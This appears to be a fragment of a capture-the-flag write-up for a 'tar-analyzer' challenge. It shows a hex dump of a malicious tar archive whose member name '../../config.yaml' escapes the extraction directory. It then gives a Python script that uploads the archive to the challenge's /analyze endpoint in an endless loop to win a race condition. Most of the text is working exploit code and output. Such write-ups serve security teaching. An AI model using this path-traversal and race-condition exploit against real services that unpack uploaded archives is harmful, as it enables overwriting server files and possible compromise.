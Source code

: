 ```python
t.close()

path=os.path.realpath('1.tar')
os.chdir('/tmp/')
t = tarfile.TarFile(path, 'r')
t.extractall('yee')
```



You will get the malicious archive like these.

```
00000000  2E 2E 2F 2E 2E 2F 63 6F 6E 66 69 67 2E 79 61 6D    ../../config.yam
00000010: 6C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    l...............
00000020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
00000030: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
00000040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
00000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
00000060: 00 00 00 00 30 30 30 30 37 37 37 00 30 30 30 31    ....0000777.0001
00000070: 37 35 30 00 30 30 30 31 37 35 30 00 30 30 30 30    750.0001750.0000
00000080: 30 30 30 30 34 35 31 00 31 33 36 36 36 37 31 35    0000451.13666715
00000090: 36 31 36 00 30 31 33 36 31 37 00 20 30 00 00 00    616.013617..0...
000000a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Upload it  with Race Condition

```python
# coding=utf-8
import hackhttp

hh = hackhttp.hackhttp()

url = "http://tar-analyzer.ctf.defenit.kr:8080/analyze"

raw = """POST /analyze HTTP/1.1
Host: tar-analyzer.ctf.defenit.kr:8080
Content-Length: 10426
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://tar-analyzer.ctf.defenit.kr:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryro0EyRpIlsuYbqOf
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://tar-analyzer.ctf.defenit.kr:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryro0EyRpIlsuYbqOf
Content-Disposition: form-data; name="file"; filename="1.tar"
Content-Type: application/x-tar

{content}
------WebKitFormBoundaryro0EyRpIlsuYbqOf--
"""

with open("./overwrite.tar", 'r') as f:
    raw = raw.format(content=f.read())

while True:
    code, head, body, redirect, log = hh.http(url, raw=raw)
    print(code)
```
